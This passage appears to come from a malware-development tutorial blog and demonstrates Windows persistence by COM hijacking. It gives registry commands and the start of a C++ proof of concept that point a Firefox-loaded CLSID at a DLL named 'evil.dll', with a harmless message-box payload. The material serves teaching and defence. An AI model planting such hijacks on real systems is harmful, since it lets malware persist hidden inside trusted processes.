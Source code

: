 And import, then check registry again:

```powershell
reg import C:\Users\User\Desktop\shared\2022-05-02-malware-pers-3\evil.reg /reg:64
reg query "HKCU\Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" /s
```

![pers](/assets/images/53/2022-05-02_16-43.png){:class="img-responsive"}    

Perfect!

### demo

Then restart `firefox.exe` in my case, wait some time. I've be waiting around 7 mins:

![pers](/assets/images/53/2022-05-02_16-52.png){:class="img-responsive"}    

![pers](/assets/images/53/2022-05-02_16-54.png){:class="img-responsive"}    

If you notice then `PID` is `9272`. But if you open `Process Hacker` you can see that it's not here:    

![pers](/assets/images/53/2022-05-02_17-02.png){:class="img-responsive"}    

Firefox crashed after a some time:

![pers](/assets/images/53/2022-05-02_16-59.png){:class="img-responsive"}    

but it happened the only time.    

Later, the "meow-meow" messagebox window popped-up with some frequency:

![pers](/assets/images/53/2022-05-02_16-54_1.png){:class="img-responsive"}    

And even after closing `firefox`:

![pers](/assets/images/53/2022-05-02_17-06.png){:class="img-responsive"}    

That's perfectly! :)

### update: programmer way

I also created `pers.cpp` dirty PoC script:

```cpp
/*
pers.cpp
windows low level persistence via COM hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "Software\\Classes\\CLSID\\{A6FF50C0-56C0-71CA-5732-BED303A59628}\\InprocServer32";

  // malicious DLL
  const char* dll = "C:\\Users\\User\\Desktop\\shared\\2022-05-02-malware-pers-3\\evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
```